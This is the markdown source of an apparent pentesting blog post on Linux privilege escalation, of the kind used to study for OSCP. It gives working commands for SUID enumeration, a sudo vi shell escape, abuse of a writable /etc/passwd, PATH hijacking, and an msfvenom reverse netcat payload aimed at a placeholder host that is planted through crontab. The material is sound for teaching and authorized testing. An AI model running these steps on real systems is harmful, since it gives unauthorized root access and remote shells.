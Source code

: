 ```yaml
---
date: '2025-02-01T23:22:44+05:30'
draft: false
title: 'Common Linux Privilege Escalation Techniques'
slug: common-linux-privesc
tags: ["linux", "privesc", "security", "pentesting", "root"]
category: writeups
showtoc: true
summary: A comprehensive guide to common Linux privilege escalation techniques including SUID abuse, crontab exploitation, and path variable manipulation
description: Detailed overview of various Linux privilege escalation methods, covering enumeration strategies, permission abuse, and practical exploitation techniques with examples
---
```


# Common Linux Privilege Escalation Techniques

## Understanding Privilege Escalation

Privilege escalation involves moving from lower permission levels to higher ones. This can happen in two directions:

1. **Horizontal Privilege Escalation**
   - Moving between user accounts at the same permission level
   - Example: Moving from one regular user to another

2. **Vertical Privilege Escalation**
   - Gaining higher privileges from current user account
   - Example: Moving from regular user to root

## Initial Enumeration

### Using LinEnum
[LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) is a powerful enumeration script. Key areas to focus on:

1. Kernel information
2. Sensitive file permissions (read/write)
3. SUID files
4. Crontab contents and jobs

### Basic System Information
Check available shells:
```bash
cat /etc/shells
```

## SUID/GUID File Abuse

### Understanding Permissions
- Execute (1)
- Write (2)
- Read (4)

### Finding SUID Files
```bash
find / -perm -u=s -type f 2>/dev/null
```

## Exploiting Writable /etc/passwd

1. Create password hash using openssl:
```bash
openssl passwd newpassword
```

2. Format for /etc/passwd entry:
```
username:password:uid:gid:uid-info:/home-directory:/shell-location
```

## Vi Editor Privilege Escalation

1. Check available sudo commands:
```bash
sudo -l
```

2. If vi is available with NOPASSWD:
```bash
User <user> may run the following commands:
    (root) NOPASSWD: /usr/bin/vi
```

3. Escalate privileges:
```bash
sudo /usr/bin/vi
:!sh
```

## GTFOBins Exploitation

1. During enumeration, identify misconfigured binaries
2. Reference [GTFOBins](https://gtfobins.github.io/) for specific exploitation techniques
3. Follow provided methods for privilege escalation

## Crontab Exploitation

1. View crontab contents:
```bash
cat /etc/crontab
```

2. Create reverse shell payload:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

3. Crontab format:
```
# m h dom mon dow user command
17 * 1 * * * root cd / && run-parts --report /etc/cron.hourly
```
- m = Minute
- h = Hour
- dom = Day of month
- mon = Month
- dow = Day of week
- user = Command executor
- command = Command to run

## Path Variable Exploitation

1. Create malicious command:
```bash
echo "/bin/bash" > ls
chmod +x ls
```

2. Modify PATH:
```bash
export PATH=/tmp:$PATH
```

3. Execute target file to trigger the malicious command

## Best Practices for Privilege Escalation

1. **Systematic Enumeration**
   - Use automated tools
   - Manual verification of findings
   - Document all discoveries

2. **Permission Checking**
   - File permissions
   - Directory permissions
   - Service permissions

3. **Configuration Review**
   - Crontab entries
   - Sudo permissions
   - Service configurations

4. **Safe Exploitation**
   - Backup critical files
   - Test commands when possible
   - Document changes made

## Additional Resources

1. [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
2. [PayloadsAllTheThings - Linux Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
3. [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
4. [Payatu Linux Privesc Guide](https://payatu.com/guide-linux-privilege-escalation)
